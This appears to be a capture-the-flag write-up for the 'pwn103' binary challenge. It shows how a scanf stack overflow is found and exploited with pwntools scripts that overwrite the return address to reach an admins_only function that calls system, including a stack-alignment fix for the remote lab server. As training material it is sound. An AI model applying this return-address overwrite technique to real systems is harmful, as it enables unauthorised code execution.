


# Challenge Name : pwn103

category : pwn

# File


Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : False
```

Taking a look at main there's scanf function which can be exploit. So lets try exploit by running the program

`give permission`
```
chmod +x pwn103-1644300337872.pwn103
```
`run program`
```
./pwn103-1644300337872.pwn103
```

Lets give a bunch of AAAAAAAAAAAAAAAAA

it just call the main function back when we give invalid input



Okay lets check the case 1 till 5 the function they called whether there is vulnerabilities there

In case 3 , There is scanf function

Lets try to give a bunch of A again


```
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try harder!!! 💪
zsh: segmentation fault  ./pwn103-1644300337872.pwn103
```

We found the vulnerable function to be exploit

`But how to call system ???`

There is no call system in main or any other function in main. But if we take a look at functions



There's sys.admins_only . So lets  checkout this function


There's is call system

## Goal

Now our goal is to change the return address of general function which can be exploit to sys.admins_only() function. So instead of going back to main() it return to sys.admins_only().


# Python Script

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + admin_address

p = process()

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

## Remote

#p = process()
p = remote("10.10.100.218",9003)

By changing that code only

we get into an MOVAPS  issue which affect ubuntu 18 which is the our remote server

to fix this issue. 
we have to padding ROP chain with extra ret or skip a push intruction
To make life easy I just add banner address before the admin-address

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
banner_address = p64(binary.symbols.banner)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + banner_address + admin_address

#p = process()
p = remote("10.10.100.218",9003)

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

